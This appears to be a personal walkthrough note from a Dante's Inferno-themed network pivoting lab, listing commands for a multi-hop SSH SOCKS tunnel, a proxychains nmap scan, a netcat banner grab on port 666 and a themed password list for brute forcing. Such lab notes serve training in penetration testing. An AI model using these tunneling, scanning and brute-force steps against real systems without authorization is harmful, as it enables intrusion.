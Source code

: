 ##### Test ssh to 6.6.6.6
```
ssh satan@6.6.6.6
```
![Pasted image 20250605100200](../../zzAttachments/Pasted%20image%2020250605100200.png)

### Treachery
- IP - 6.6.6.6
##### Create the Dynamic Tunnel to 6.6.6.6
```
ssh -N -D 1080 -J virgil@192.168.1.200,cleopatra@172.1.98.15,cerberus@10.1.10.3,pluto@10.0.0.254,phlegyas@255.255.255.9,epicurus@9.9.9.8:1,minotaur@222.222.222.187 geryon@3.3.3.3
```

##### nmap scan
```
sudo proxychains nmap -sT -Pn -n 6.6.6.6
```
![Pasted image 20250605100613](../../zzAttachments/Pasted%20image%2020250605100613.png)

##### Banner Grab 666
```
proxychains nc 6.6.6.6 666
```
![Pasted image 20250605100659](../../zzAttachments/Pasted%20image%2020250605100659.png)
##### make a password_list.txt for brute force
```
echo "disgusting\nhorror\ntorment\nbetrayal\nmalcontent\nmonstrous\nfaces\ntreacherous\ntraitor\nfrozen\npowerless\npunishmen\njuda\nbrutus\ncassius\nnine\ntreason" > password_list.txt
```
